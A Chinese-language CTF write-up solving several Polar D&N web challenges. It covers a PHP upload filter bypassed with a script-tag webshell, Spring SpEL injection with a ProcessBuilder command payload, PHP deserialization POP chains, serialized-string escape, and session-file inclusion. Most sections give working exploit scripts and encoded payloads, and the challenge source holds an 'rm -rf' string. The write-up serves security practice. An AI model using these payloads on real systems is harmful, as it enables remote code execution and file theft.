

[Polar ctf WEB] 困难区 wp 2
===

## [Polar WEB] 自由的文件上传系统

### 题解

打开是一个文件上传页面, 尝试传个马上去, 发现后台会自动把 `<?` 替换成 `<!` 导致不能成功, 此时观察一下网页源代码, 发现 url 有一点奇怪, 扫一下目录:


扫出了 git 源码泄露问题, 这里用 `dumpall` 工具恢复源码, 用 pip 装一个就行; 

很可惜扫完好像没什么东西在里面; 再看一下 url, 可能有文件包含, 可惜似乎禁了伪协议, 也没什么头绪, 那只能再试试上传点了:

```phtml
<script language="php">system("ls");</script>
```


直接访问不显示结果, 试试刚刚的文件包含:


到这里再传个码进去就行了:


## [Polar WEB] ezjava

### 题解 (SpEL 注入)

题目给了个 jar 包, 添加到 IDEA 库里反编译:


注意看这里, 有一处可疑的注入点:


```java
public String spelVul(String ex) {
    ExpressionParser parser = new SpelExpressionParser();
    EvaluationContext evaluationContext = new StandardEvaluationContext();
    String result = parser.parseExpression(ex).getValue(evaluationContext).toString();
    System.out.println(result);
    return result;
}
```

`SpelExpressionParser` 和 `EvaluationContext` 是典型的 Spring 自带类, 前者将字符串形式的 SpEL (Spring Expression Language) 表达式解析成一个可执行的 Expression 对象, 保存求值的上下文变量; 通俗的来说, 定义了解析表达式能做什么, 能看到什么;

这个注入其实和 Python Flask 中是 SSTI 注入有一些调用链上的相似之处;

此处的 `getValue` 方法会对表达式求值, 因此是执行点;

直接传试试:

```
(GET)
SPEL/vul?ex=2-1
```

执行成功了:


payload:

```java
new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder(new String[]{"bash","-c","cat /app/flag*"}).start().getInputStream(), "gbk")).readLine()
```

转 URL 编码后传入 ex 即可;


非常经典的链式调用;

## [Polar WEB] 苦海

### 题解

开门源码:

```php
 <?php
/*
PolarD&N CTF
*/
error_reporting(1);

class User
{
    public $name = 'PolarNight';
    public $flag = 'syst3m("rm -rf ./*");';

    public function __construct()
    {
        echo "删库跑路，蹲监狱~";
    }

    public function printName()
    {
        echo $this->name;
        return 'ok';
    }

    public function __wakeup()
    {
        echo "hi, Welcome to Polar D&N ~ ";
        $this->printName();
    }

    public function __get($cc)
    {
        echo "give you flag : " . $this->flag;
    }
}

class Surrender
{
    private $phone = 110;
    public $promise = '遵纪守法，好公民~';

    public function __construct()
    {
        $this->promise = '苦海无涯，回头是岸！';
        return $this->promise;
    }

    public function __toString()
    {
        return $this->file['filename']->content['title'];
    }
}

class FileRobot
{
    public $filename = 'flag.php';
    public $path;

    public function __get($name)
    {
        $function = $this->path;
        return $function();
    }

    public function Get_file($file)
    {
        $hint = base64_encode(file_get_contents($file));
        echo $hint;
    }

    public function __invoke()
    {
        $content = $this->Get_file($this->filename);
        echo $content;
    }
}

if (isset($_GET['user'])) {
    unserialize($_GET['user']);
} else {
    $hi = new  User();
    highlight_file(__FILE__);
} 
```

反序列化, 调用链:

```
User.__wakeup -> User.printName -> Surrender.__toString -> FileRobot.__get -> FileRobot.__invoke -> FileRobot.Get_file
```

exp:

```php
<?php
class User
{
    public $name;
}
 
class Surrender
{
}
 
class FileRobot
{
    public $filename;
    public $path;
}
 
$d=new FileRobot();
$c=new FileRobot();
$b=new Surrender();
$a=new User();
$d->filename='../flag.php';
$c->path=$d;
$b->file['filename']=$c;
$a->name=$b;
echo serialize($a);
```

payload:
```
(GET)
?user=O%3A4%3A"User"%3A1%3A{s%3A4%3A"name"%3BO%3A9%3A"Surrender"%3A1%3A{s%3A4%3A"file"%3Ba%3A1%3A{s%3A8%3A"filename"%3BO%3A9%3A"FileRobot"%3A2%3A{s%3A8%3A"filename"%3BN%3Bs%3A4%3A"path"%3BO%3A9%3A"FileRobot"%3A2%3A{s%3A8%3A"filename"%3Bs%3A11%3A"..%2Fflag.php"%3Bs%3A4%3A"path"%3BN%3B}}}}}
```


## [Polar WEB] 你想逃也逃不掉

### 题解

还是开门源码:

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
function filter($string){
    return preg_replace( '/phtml|php3|php4|php5|aspx|gif/','', $string);
}
$user['username'] = $_POST['name'];
$user['passwd'] = $_GET['passwd'];
$user['sign'] = '123456';

$ans = filter(serialize($user));
if(unserialize($ans)[sign] == "ytyyds"){
    echo file_get_contents('flag.php');
}
```

这种没有直接用正则把 payload 杀掉, 而是使用替换的题一般都是字符串逃逸:

这里对输入先序列化再过滤, 之后再反序列化, 注意这个顺序, 通过调整 payload, 让 passwd 去污染原有序列, 然后让 username 里的原有内容被 WAF 掉, 多余的空位来指挥 php 读入污染的 passwd;

exp:

```php

<?php
function filter($string){
    return preg_replace( '/phtml|php3|php4|php5|aspx|gif/','', $string);
}

class user{
    public $username;
    public $passwd;
    public $sign;

}

$user['username'] = "phtmlphtmlphtmlphtml"; # 20 个字符
$user['passwd'] = ";s:6:\"passwd\";s:0:\"\";s:4:\"sign\";s:6:\"ytyyds\";}";
$user['sign'] = '123456';

$a = serialize($user);
echo 'serialized: '.$a;
echo "\n";

$ans = filter($a);
echo 'filtered: '.$ans;
echo "\n";

$b = unserialize($ans);
echo 'unserialized: '.$b;
echo "\n";

# 需要逃逸: s:6:"passwd";s:46:";
# 20 个字符, 5 个phtml 即可

if(unserialize($ans)['sign'] == "ytyyds"){
    echo "bypass";
}
```


爆出 flag;

这题的关键是通过不直接杀而是替换的 WAF 来联想到**序列化字符串逃逸**, 通过一增一减的方式构造 payload, 具体来说, 尝试构造一个 passwd payload, 然后后推前即可; 多做几道这种题就会快得多;

## [Polar WEB] safe_include

### 题解

开门依然源码:

```php
<?php 
show_source(__FILE__); 
@session_start();

ini_set('open_basedir', '/var/www/html/:/tmp/'); 

$sys = @$_SESSION['xxs'];
if (isset($_GET['xxs'])) {
    $sys = $_GET['xxs'];
}

@include $sys;

$_SESSION['xxs'] = $sys;
```

此处对 session 既有读又有写, 那么应该是利用这里来传马, 首先传个一句话木马:


刚刚给出了 session 的存放在 `/tmp` 中, 直接吧返回的 PHPSESSID 给带上, php session 的命名规则就是 `sess_` + PHPSESSID:


需要注意的是直接用 Webshell 的话, 网站在执行一条后就会销毁之前的上一个 session, payload:



<br>

## [Polar WEB] phar

### 题解

开门源码:

```php
 <?php
include 'funs.php';
highlight_file(__FILE__);
if (isset($_GET['file'])) {
    if (myWaf($_GET['file'])) {
        include($_GET['file']);
    } else {
        unserialize($_GET['data']);
    }
} 
```

首先利用 include 这里的文件包含, 使用伪协议:


解码后:

```php
<?php
include 'f1@g.php';
function myWaf($data)
{
    if (preg_match("/f1@g/i", $data)) {
        echo "NONONONON0!";
        return FALSE;
    } else {
        return TRUE;
    }
}

class A
{
    private $a;

    public function __destruct()
    {
        echo "A->" . $this->a . "destruct!";
    }
}

class B
{
    private $b = array();
    public function __toString()
    {
        $str_array= $this->b;
        $str2 = $str_array['kfc']->vm50;
        return "Crazy Thursday".$str2;
    }
}
class C{
    private $c = array();
    public function __get($kfc){
        global $flag;
        $f = $this->c[$kfc];
        var_dump($$f);
    }
}
```

调用链:

```
A.__destruct -> B.__toString -> C.__get
```

exp, 注意属性要改成 `public`:

```php
<?php

class A
{
    public $a;

    public function __destruct()
    {
        echo "A->" . $this->a . "destruct!";
    }
}

class B
{
    public $b = array();
    public function __toString()
    {
        $str_array= $this->b;
        $str2 = $str_array['kfc']->vm50;
        return "Crazy Thursday".$str2;
    }
}
class C{
    public $c = array();
    public function __get($kfc){
        global $flag;
        $f = $this->c[$kfc];
        var_dump($$f);
    }
}


$a1 = new A();
$a2 = new B();
$a3 = new C();
$a2->b=array('kfc'=> $a3);
$a1->a=$a2;
$a3->c=array('vm50'=>'flag');

echo serialize($a1);
```


编码一下, 传入, 爆出 flag:


反序列化的题总的来说就是熟能生巧;

## [Polar WEB] Deserialized

### 题解

开门源码:

```php
<?php

class Polar
{
    public $night;
    public $night_arg;

    public function __wakeup()
    {
        echo "hacker";
        $this->night->hacker($this->night_arg);
    }

}

class Night
{
    public function __call($name, $arguments)
    {
        echo "wrong call:" . $name . "  arg:" . $arguments[0];
    }
}

class Day
{
    public $filename="/flag";

    public function __toString()
    {
        $this->filename = str_replace("flag", "", $this->filename);
        echo file_get_contents($this->filename);
        return $this->filename;
    }
}

if (isset($_POST['polar'])) {
    unserialize(base64_decode($_POST['polar']));
} else {
    highlight_file(__FILE__);
}
```

攻击链:

```
Polar.__wakeup()->Night.__call()->Day.__toString()
```

注意这里的 flag 字符串过滤应该是可以双写绕过的, exp:

```php
<?php 

class Polar
{
    public $night;
    public $night_arg;

    public function __wakeup()
    {
        echo "hacker";
        $this->night->hacker($this->night_arg);
    }

}

class Night
{
    public function __call($name, $arguments)
    {
        echo "wrong call:" . $name . "  arg:" . $arguments[0];
    }
}

class Day
{
    public $filename="/flag";

    public function __toString()
    {
        $this->filename = str_replace("flag", "", $this->filename);
        echo file_get_contents($this->filename);
        return $this->filename;
    }
}

$polar = new Polar();
$night = new Night();
$day = new Day();

$day->filename = "/flflagag";

$polar->night = $night;
$polar->night_arg = $day;

echo serialize($polar);
echo "\n";
echo base64_encode(serialize($polar)); 
?>
```

执行:


爆出 flag:


